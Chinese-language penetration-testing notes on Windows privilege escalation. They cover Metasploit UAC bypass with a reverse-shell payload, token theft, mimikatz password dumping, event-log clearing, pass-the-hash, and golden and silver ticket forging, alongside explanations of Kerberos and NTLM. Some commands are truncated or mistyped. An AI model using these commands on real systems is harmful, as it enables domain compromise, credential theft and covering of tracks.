



UAC提权
UAC简介：
UAC(User Account Control）简称用户帐户控制，UAC 是Windows Vista以上的版本中引入了要求用户在执行可能会影响计算机运行的操作或执行更改影响其他用户的设置的操作之前，提供权限或管理员密码。
UAC工作模式
需要UAC的授权才能进行的操作：
配置Windows Update
增加、删除账户；更改账户类型
更改UAC的设置
安装ActiveX；安装、卸载程序
安装设备驱动程序
将文件移动/复制到ProgramFiles或Windows目录下
查看其它用户的文件夹
UAC有如下四种设置要求：
始终通知：这是最严格的设置，每当有程序需要使用高级别的权限时都会提示本地用户
仅在程序试图更改我的计算机时通知我：这是UAC的默认设置。当本地Windows程序要使用高级别的权限时，不会通知用户。但是，当第三方程序要使用高级别的权限时，会提示本地用户
仅在程序试图更改我的计算机时通知我(不降低桌面的亮度)：与上一条设置的要求相同，但在提示用户时不降低桌面的亮度
从不提示：当用户为系统管理员时，所有程序都会以最高权限运行
绕过UAC的几种思路
目前公开的方法中，有以下几种绕过UAC思路：
白名单劫持（利用白名单程序是该程序以系统权限启动且不用通知用户，只要我们找到相关程序劫持它，此时只要程序启动，也会带着我们的程序以系统权限启动。）
DLL 劫持
Windows 自身漏洞提权
远程注入
COM 接口技术
msf过UAC演示
生成木马
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.221.132 lport=4444 -f exe >shell.exe连接木马
打开msf
use exploit/multi/handler #设置监听 set payload windows/meterpreter/reverse_tcp #设置payload set lhost 192.168.221.132 set lport 4444 run目标机打开shell.exe

查看身份
getuid

meterpreter放置后台,UAC提权
backgrounduse exploit/windows/local/ask
配置信息
info通过上面，我们知道要设置一下session，再run
set seesion 1 run
再次提权，提权成功

msf用exploit/windows/local/bypassuac同理，设置session，然后run一下，但是如果你的权限够高，他就不会给你提提权（比如你当前的权限是administrator，system等）
会有以下报错。

令牌窃取
令牌窃取并非提权
伪造令牌攻击的核心是 Kerberos 协议。
Kerberos 协议
Kerberos实际上是一种基于票据（Ticket）的认证方式。客户端要访问服务器的资源，需要首先购买服务端认可的票据，等待服务验票之后才能入场。在这之前，客户端需要先买票，但是这张票不能直接购买，需要一张认购权证。客户端在买票之前需要预先获得一张认购权证。这张认购权证和进入服务器的入场券均由KDC发售。
过程中涉及到的专有名词有：
KDC(Key Distribution Center) : 密钥分发中心
KAS(Kerberos Authentication Service) : kerberos认证服务
TGT(Ticket Granting Ticket) : 认购权证
TGS(Ticket Granting Service) : 票据授予服务
ST(Service Ticket) : 服务票据获取TGT
- 首先在用户登陆时，Kerberos服务向KDC(域控)发送申请认购权证的请求，内容为登录输入的用户名和经过输入密码加密的Authenticator(用于确认身份的，往下看就会明白)
- KDC(域控)拿到传来的数据后，会根据用户名到活动目录(Active Directory)的数据库中寻找该用户的密码，然后使用该密码解密加密的Authenticator，然后与原始的Authenticator对比，如果一致，则确认用户身份。

KDC(域控)确认登录用户身份正确后，先生成一个由用户密码加密的加密Logon Session Key（为了确保通信安全）。然后生成TGT(包含用户信息和原始Logon Session Key)，再使用KDC的密钥（即krbrgt用户的密钥）加密TGT生成加密后的TGT。然后将由用户密码加密的加密Logon Session Key和加密后的TGT返回给客户端
客户端拿到加密Logon Session Key和TGT后，先用自己的密码解密加密Logon Session Key得到原始Logon Session Key，然后将原始Logon Session Key和TGT缓存到本地
获取ST
当用户想要访问某个服务时，会经过以下过程：
- 客户端向TGS请求购买ST，请求内容包括用户名、经Logon Session Key加密的Authenticator、请求访问的服务名、TGT
- 接收到请求后，TGS使用自己的密钥(krbtgt用户的密钥)解密TGT得到用户信息和原始Logon Session Key，然后使用原始Logon Session Key解密出Authenticator，与TGS本地的Authenticator对比一致后确认用户身份。
- TGS生成一个经Logon Session Key加密的Service Session Key，然后生成ST（包含请求用户的信息以及原始Logon Session Key），然后将Service Session Key和ST返回给客户端
什么是令牌？
是个临时秘钥，如U盾。
令牌最大的特点就是随机性，不可预测，一般黑客或软件无法猜测出来，令牌有很多种，比如访问令牌（Access Token）表示访问控制操作主题的系统对象；密保令牌（Security Token）又叫作认证令牌或者硬件令牌，是一种计算机身份效验的物理设备，会话令牌是交互会话中唯一的身份标识符。
access token是用来描述进程或线程安全上下文的对象，令牌所包含的信息是与该user账户相关的进程或线程的身份和权限信息。当user登录时，系统通过将user输入的密码与储存在安全数据库中的密码进行对比。若密码正确，系统此时会为user生成一个访问令牌。之后，该user执行的每个进程都会拥有一个该访问令牌的拷贝。
令牌的种类
- 主令牌（每一个进程都具有一个唯一的主令牌，进行通过主令牌被开启）
- 模拟令牌（在默认的情况下，当线程被开启的时候，所在进程的主令牌会自动附加到当前线程上，作为线程的安全上下文。而线程可以运行在另一个非主令牌的访问令牌下执行，而这个令牌被称为模拟令牌。而指定线程的模拟令牌的过程被称为模拟）
主令牌和模拟令牌，会在系统重启或者关机后全部清除，不然将会一直在内存中存留。也就是说，如果机器不关机或者重启的话，就会存在散落的令牌。但是，由于权限的问题，当前账号只能看到自己的访问令牌和比自己权限低的账号的访问令牌。如果想看到所有访问令牌，需要当前权限为系统最高权限才行。
常见的伪造工具
Metasploit 中的 incognito 插件
Windows 平台下的 incognito 工具
Invoke-TokenManipulation.ps1 脚本
Mimkatz 中的 token::list
CobaltSrike 中的 steal_token 插件
Metasploit 中的 incognito 插件
msf假冒令牌，生成一个反弹shell，在kali上进行监听操作，提权到system权限。

加载 incognito 插件，列出当前可以令牌伪造的清单，list_token_u权限越高，令牌越多

impersonate_token+令牌伪造用户,伪造成功。

CobaltSrike 中的 steal_token 插件

生成木马，监听。

点击Interact。
提权到system权限，getsystem
ps查看进程

steal_token PID：获取到某个用户的令牌
这里PID选的3152，令牌窃取成功

mimikatz使用
至少是administrator权限使用
域环境中，用户信息ntds.dit，加密后为散列值
LM Hash NTLM Hash
hash结构：user1:RID:LM-Hash:NT-Hash
NTLM Hash基于md4加密算法
"privilege::debug" "log" "sekurlsa::logonpassword"
具体使用
:: #查看帮助信息
- privilege::debug ：提升权限；

process::list：查看进程列表

process::start calc #开启一个计算机进程

process::lsadump #挂起进程：可用于植入木马时，暂停防病毒软件等
event::clear #清除操作系统的安全日志
event::drop #不再产生新的日志
token::whoami
sekurlsa::logonPasswords #查看当前登录的账户和明文密码
pass-the-hash
mimikatz "privilege::debug" "sekurlsa::pth /user:xxx /domain:test1.com /aes256: xxxxx"
票据
票据传递攻击三种方法
黄金票据
白银票据
PTT攻击
制作黄金票据
通过伪造TGT，来进行下一步的Kerberos认证，从而获取到访问服务器的ST
制造条件：
1、域名称
2、域的SID（Object Security ID）值
3、域的KRBTGT账户密码HASH（可以是aes256_hmac或者是ntml hash）
4、伪造用户名，可以是任意的
使用Mimikatz来提取krbtgt的NTLM-Hash。
1.获取域名称
net view /domain2.Mimikatz获取krbtgt的HTLM-Hash及域SID
mimikatz "lsadump::dcsync /domain:test666.com /user:krbtgt"3..Mimikatz生成黄金票据
mimikatz "kerberos::golden /domain:test666.com /sid:S-1-5-21-1497092113-2272191533-193330055 /krbtgt:ca利用步骤：
1.导出krbtgt的Hash
金票的生成需要用到krbtgt的密码HASH值，可以通过mimikatz中的
lsadump::dcsync /OWA2010SP3.0day.org /user:krbtgt命令获取krbtgt的值。
2.生成Golden Ticket
得到KRBTGT HASH之后使用mimikatz中的kerberos::golden功能生成金票golden.kiribi，即为伪造成功的TGT。
参数说明：
/admin：伪造的用户名
/domain：域名称
/sid：SID值，注意是去掉最后一个-后面的值
/krbtgt：krbtgt的HASH值
/ticket：生成的票据名称kerberos::golden /admin:administrator /domain:0day.org /sid:S-1-5-21-1812960810-2335050734-3517558805 /krbtgt:36f9d9e6d98ecf8307baf4f46ef842a2 /ticket:golden.kiribi导入伪造Golden Ticket获得域控权限
通过mimikatz中的kerberos::ptt功能（Pass The Ticket）将golden.kiribi导入内存中。
kerberos::purge
kerberos::ppt golden.kiribi
kerberos::list此时就可以通过dir成功访问域控的共享文件夹。
dir \\OWA2010SP3.0day.org\c$注意
- 这种方式导入的Ticket默认在20分钟以内生效，如果过期了，再次ptt导入Golden Ticket即可。
- 可以伪造任意用户，即使其不存在。
- krbtgt的NTLM hash不会轻易改变，即使修改域控管理员密码。
白银票据
1.获取hash sid等信息
首先我们需要知道服务账户的密码HASH，这里同样拿域控来举例，通过mimikatz查看当前域账号administrator的HASH值。注意，这里使用的不是Administrator账号的HASH，而是OWA2010SP3$的HASH。
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit" > 1.txt
sekurlsa::logonpasswords- 伪造白银票据
kerberos::golden /domain:0day.org /sid:S-1-5-21-1812960810-2335050734-3517558805 /target:OWA2010SP3.0day.org /service:cifs /rc4:125445ed1d553393cce9585e64e3fa07 /user:silver /ptt参数说明：
/domain：当前域名称
/sid：SID值，和金票一样取前面一部分
/target：目标主机，这里是OWA2010SP3.0day.org
/service：服务名称，这里需要访问共享文件，所以是cifs
/rc4：目标主机的HASH值
/user：伪造的用户名
/ptt：表示的是Pass TheTicket攻击，是把生成的票据导入内存，也可以使用/ticket导出之后再使用kerberos::ptt来导入关于黄金票据和白银票据的一些区别:
1.访问权限不同
- Golden Ticket: 伪造TGT,可以获取任何Kerberos服务权限
- Silver Ticket: 伪造TGS,只能访问指定的服务
2.加密方式不同
- Golden Ticket 由Kerberos的Hash—> krbtgt加密
- Silver Ticket 由服务器端密码的Hash值—> master key 加密
3.认证流程不同
- Golden Ticket 的利用过程需要访问域控(KDC)
- Silver Ticket 可以直接跳过 KDC 直接访问对应的服务器
Windows身份认证
做了不少关于提权，令牌窃取，盗取密码的例子，总结一下关于windows的身份验证。
Windows身份认证机制主要有NTLM和Kerberos两种，其中NTLM主要被用在本地以及工作组环境，而在域环境中优先使用的是Kerberos。
我们先了解NTLM机制。NTLM中最关键的凭证：NTLM Hash。正常的明文密码加密为NTLM Hash的方法如下：
password —-> 十六进制编码 —-> Unicode转换 —-> MD4加密 —-> 得到NTLM Hash
本地认证
在本地认证过程中，当用户进行注销、重启、开机等需要认证的操作时，首先Windows会调用winlogon.exe进程（也就是我们平常见到的登录框）接收用户的密码。
之后密码会被传送给进程lsass.exe，该进程会先在内存中存储一份明文密码，然后将明文密码加密为NTLM Hash后，与Windows本地的SAM数据库（%SystemRoot%\system32\config\SAM）中该用户的NTLM Hash对比，如果一致则通过认证
网络认证
网络认证需要使用NTLM协议，该协议基于挑战（Challenge）/响应（Response）机制。
- 首先客户端向服务端发送本机的一些信息
- 服务端接收到客户端的用户名后，先生成一个随机的16位的Challenge（挑战随机数），本地储存后将Challenge返回给客户端
- 客户端接收到服务端发来的Challenge后，使用用户输入密码的NTLM Hash对Challenge进行加密生成Response（也叫Net NTLM Hash），将Response发送给服务端
- 服务端接收到客户端发来的Response，使用数据库中对应用户的NTLM Hash对之前存储的Challenge进行加密，得到的结果与接收的Response进行对比，如果一致则通过认证
域环境
域环境中虽然默认首选是kerberos认证，但是也可以使用NTLM来进行认证。其实NTLM在域环境与工作组环境中的差异不大，区别主要是最终在域控(DC)中完成验证。
NTLM的缺陷
了解整个过程之后我们可以发现，在整个过程中用户的明文密码并没有在客户端和服务端之间传输，取而代之的是NTLM Hash。因此如果攻击者得到了用户的NTLM Hash，那么便可以冒充该用户通过身份验证（也就是说不需要破解出明文密码就可以通过验证），这就是hash传递攻击(Pass The Hash)。
Kerberos的缺陷
从之前写的认证过程我们可以发现，Kerberos认证完全依赖于KDC的密钥（即krbtgt用户的密钥）。因此，如果攻击者拿到了krbtgt账号的hash的话，那么他就可以访问域中任何以kerberos协议做身份认证的服务。这就产生了票据传递攻击(Pass The Ticket)。